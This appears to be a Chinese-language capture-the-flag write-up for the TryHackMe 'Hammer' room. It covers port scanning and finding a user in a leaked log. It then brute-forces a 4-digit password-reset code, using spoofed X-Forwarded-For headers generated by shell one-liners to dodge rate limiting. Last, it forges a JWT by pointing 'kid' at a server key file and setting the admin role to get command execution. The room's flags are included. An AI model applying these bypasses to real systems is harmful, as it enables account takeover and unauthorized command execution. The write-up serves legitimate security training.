









*With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?*
*有了 Hammer，您能否绕过身份验证机制并在系统上安装 RCE？*

先使用Rustscan扫描端口开放情况

```
┌──(dragonkeep㉿kali)-[~]
└─$ rustscan -a 10.10.93.101
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/dragonkeep/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.93.101:22
Open 10.10.93.101:1337
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-25 09:22 CST
Initiating Ping Scan at 09:22
Scanning 10.10.93.101 [4 ports]
Completed Ping Scan at 09:22, 0.34s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 09:22
Completed Parallel DNS resolution of 1 host. at 09:22, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 09:22
Scanning 10.10.93.101 [2 ports]
Completed SYN Stealth Scan at 09:22, 4.19s elapsed (2 total ports)
Nmap scan report for 10.10.93.101
Host is up, received timestamp-reply ttl 61 (0.32s latency).
Scanned at 2025-10-25 09:22:03 CST for 4s

PORT     STATE    SERVICE REASON
22/tcp   filtered ssh     no-response
1337/tcp filtered waste   no-response

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.65 seconds
           Raw packets sent: 8 (328B) | Rcvd: 1 (40B)

```
发现只开放了22和1337端口



F12查看网页源代码，发现有提示



```
Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME
```

开发说明：目录命名约定必须为 hmr_DIRECTORY_NAME，我们观察它的CSS文件命名，进一步确认文件名结构，尝试构造拼接目录并进行扫描枚举。



发现存在日志文件

```
[Mon Aug 19 12:00:01.123456 2024] [core:error] [pid 12345:tid 139999999999999] [client 192.168.1.10:56832] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:01:22.987654 2024] [authz_core:error] [pid 12346:tid 139999999999998] [client 192.168.1.15:45918] AH01630: client denied by server configuration: /var/www/html/
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:03:45.765432 2024] [authz_core:error] [pid 12348:tid 139999999999996] [client 192.168.1.20:37254] AH01627: client denied by server configuration: /etc/shadow
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:07:29.321098 2024] [core:error] [pid 12352:tid 139999999999992] [client 192.168.1.35:42310] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```
存在用户名

```
tester@hammer.thm
```

尝试重置密码并爆破其验证码


存在请求速率限制，日志文件中出现不少内网IP，尝试使用`X-Forwarded-For`绕过，先生成`192.168.x.x`内网IP字典。

> for X in {0..255}; do for Y in {0..255}; do echo "192.168.$X.$Y"; done; done > fake_ip.txt

并优先使用前1000个进行枚举

> head -n 1000 fake_ip.txt > fake_ip_cut.txt

还需要生成我们要枚举的4位验证码

> printf "%04d\n" {0..9999} > count-9999.txt



重置密码成功后，登录系统，发现存在执行命令

> THM\{AuthBypass3D\}



发现会自动登出，但是可以直接抓包绕过。尝试执行其他命令，发现只有`ls`可以执行，无法执行`cat`等其他系统命令。



解密JWT发现存在设置私钥地址



修改jwt中`kid`的值，设置为`/var/www/html/188ade1.key`，然后使用`188ade1.key`进行jwt加密认证，并修改`role`为admin，以及`user_id`为0

> 56058354efb3daa97ebab00fabd7a7d7

替换后可以成功值cat等指令



最后根据题目要求找到flag



> THM\{RUNANYCOMMAND1337\}